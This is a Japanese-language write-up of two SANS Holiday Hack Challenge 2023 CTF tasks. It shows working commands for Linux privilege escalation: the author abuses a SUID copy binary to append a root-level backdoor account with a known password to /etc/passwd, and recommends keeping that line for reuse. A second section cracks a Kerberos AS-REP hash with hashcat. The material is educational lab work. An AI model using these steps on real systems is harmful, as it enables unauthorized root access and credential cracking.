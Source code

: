 ```yaml
---
title: "SANS Holiday Hack Challenge (Kringlecon) 2023 Writeup"
date: 2024-01-06T12:00:00+09:00
lastmod: 2024-01-06T12:00:00+09:00
draft: false
keywords: []
description: ""
tags: ["CTF"]
categories: ["CTF"]
author: ""
---
```

<img src="https://captureamerica.github.io/writeups/img/green_bar.png" alt="green_bar.png">
<img src="https://captureamerica.github.io/writeups/img/10_Nature_Themed_Icons_Cute_Earth_Icon.png" alt="Save The Earth!"> <b><font color="teal">Save The Earth! - 地球環境を守ろう！</font></b> <img src="https://captureamerica.github.io/writeups/img/10_Nature_Themed_Icons_Cute_Earth_Icon.png" alt="Save The Earth!">
<img src="https://captureamerica.github.io/writeups/img/green_bar.png" alt="green_bar.png">

{{% right %}}
<a href="https://translate.google.com/translate?hl=en&sl=ja&tl=en&u=https%3A%2F%2Fcaptureamerica.github.io%2Fwriteups%2Fpost%2Fkringlecon_2023%2F">
<img src="https://captureamerica.github.io/writeups/img/En.png" alt="English">
</a>
{{% /right %}}

URL: [https://2023.kringlecon.com/](https://2023.kringlecon.com/)
<br /><br />

新年明けまして おめでとうございます！

SANS の Holiday Hack Challenge (Kringlecon) 2023 をちょっとだけやりました。

チャレンジ自体にたどり着くまでにアバターを移動させないといけないのが面倒くさ過ぎて、今年も少ししかやっていません（以下）。


<br />

<img src="https://captureamerica.github.io/writeups/img/kringlecon_2023_Objectives.png" alt="kringlecon_2023_Objectives.png">





<br />

<br /><br />
## Linux PrivEsc (Difficulty: 3)
- - -
### Challenge
> Rosemold is in Ostrich Saloon on the Island of Misfit Toys. Give her a hand with escalation for a tip about hidden islands.

（別のチャレンジ文もあったかもしれません。）


<br />
### Solution

まずは、SUIDがセットされているファイルを探します。

<pre>
$ find / -perm -u=s -type f 2>/dev/null
:
(snip)
:
/usr/bin/simplecopy
</pre>

<br/>
<br/>

見慣れない simplecopy というのが居たので、実行してみます。

<pre>
$ /usr/bin/simplecopy
Usage: /usr/bin/simplecopy &lt;source> &lt;destination>
</pre>

<br/>
<br/>

任意のファイルを上書きできそうなので、/etc/password にアカウントを追加します。

<pre>
$ cp /etc/passwd .
$ echo root2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash >> passwd
$ /usr/bin/simplecopy passwd /etc/passwd
$ su root2
Password:
# id
uid=0(root) gid=0(root) groups=0(root)
</pre>

/etc/passwd に追加するやつは使いまわしができるので、Linuxの権限昇格をよくやる人は、手元に一個持っておくといいです。

上記の例だと、パスワードは、`mrcake` になります。

<br />
<br />

rootユーザのホーム (/root) に、runmetoanswerというファイルがあって、実行すると簡単なクイズが表示されます。

<pre>
# /root/runmetoanswer
Who delivers Chrismas presents?

>
</pre>

ま、サンタクロースなのは間違いないんですが、大文字小文字の区別があったり、ピッタリ回答が合わないとフラグは貰えません。

<br />
<br />

`strace` や `ltrace` とかも使えないし、`strings` は大量のアウトプットが出るので、そこから答えのヒントを見つけるのが難しいかもしれませんが、いちおう `/etc/runtoanswer.yaml` を参照しているのは見つかります（以下）。

<img src="https://captureamerica.github.io/writeups/img/kringlecon_2023_strings.png" alt="kringlecon_2023_strings.png">

<br />
<br />

自分は別の方法でこのファイル（`/etc/runtoanswer.yaml`）を見つけたと思うんですが、このブログを書いている時点で全く記憶に残っていないし、メモも取ってなかったので、わからないです。ごめんなさい。たぶん、`grep` か `find` です。

<br />
<br />
`/etc/runtoanswer.yaml` の中を見たら、答え `santa` が見つかります。


<br /><br />
<br /><br />
## Hashcat (Difficulty: 2)
- - -
### Challenge
> Eve Snowshoes is trying to recover a password. Head to the Island of Misfit Toys and take a crack at it!

（別のチャレンジ文もあったかもしれません。）

<br />
### Solution

hash.txt の中身を見ると、`$krb5asrep` で始まっていて、ググってみると `-m 18200` を指定するとよさそうなので、やってみます。

<pre>
$ hashcat -m 18200 -w 1 -u 1 --kernel-accel 1 --kernel-loops 1 hash.txt password_list.txt --force
</pre>

<img src="https://captureamerica.github.io/writeups/img/kringlecon_2023_hashcat.png" alt="kringlecon_2023_hashcat.png">

<br /><br />

`1LuvCandyC4n3s!2022` か `iLuvCandyCan3s!23!` 辺りが正解なのかと思ったんですが、これらは正解ではありませんでした。

<br /><br />

そもそも、パスワードリスト (password_list.txt) の中には、それほど沢山のパスワードは含まれていないので、Brute Forceしちゃうことにしました。

<pre>
$ for pass in $(cat password_list.txt); do echo $pass | /bin/runtoanswer & done
</pre>

<br />

これで `hashcat` を使わなくてもクリアできます。



<br /><br />
<br /><br />
- - -
<br /><br />
<br /><br />
